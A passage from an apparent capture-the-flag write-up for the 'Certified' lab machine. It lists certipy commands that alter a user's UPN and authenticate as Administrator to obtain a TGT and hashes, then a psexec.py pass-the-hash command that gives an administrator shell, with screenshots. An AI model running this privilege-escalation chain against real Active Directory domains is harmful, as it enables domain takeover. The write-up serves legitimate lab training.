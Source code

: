 	$ certipy account update -username management_svc@certified.htb -hashes a091BLABLABLA5584 -user ca_operator -upn ca_operator@certified.htb

<br>

![Pasted image 20241109174845](https://github.com/user-attachments/assets/d49bb779-6745-4b15-920f-c0c7ba319257)

<br><br>

And get administrator _TGT and hashes_:

<br>

	$ certipy auth -pfx administrator.pfx -domain certified.htb

<br>

![Pasted image 20241109174537](https://github.com/user-attachments/assets/ea83202d-8a5a-48a5-b7ac-3e87eaeb0177)

<br><br>

Get Administrator shell:

<br>

	$ psexec.py 'certified.htb/Administrator@10.10.11.41' -hashes aad3bBLABLABLA2d34

<br>

![Pasted image 20241109174656](https://github.com/user-attachments/assets/4da4a479-1d13-4d81-bc7e-fa4c06d94002)

<br><br>

Getting user.txt and root.txt togheter:

<br>

![Pasted image 20241109174733](https://github.com/user-attachments/assets/1c1ff99c-a98d-4320-8eca-40bf3f6b9002)

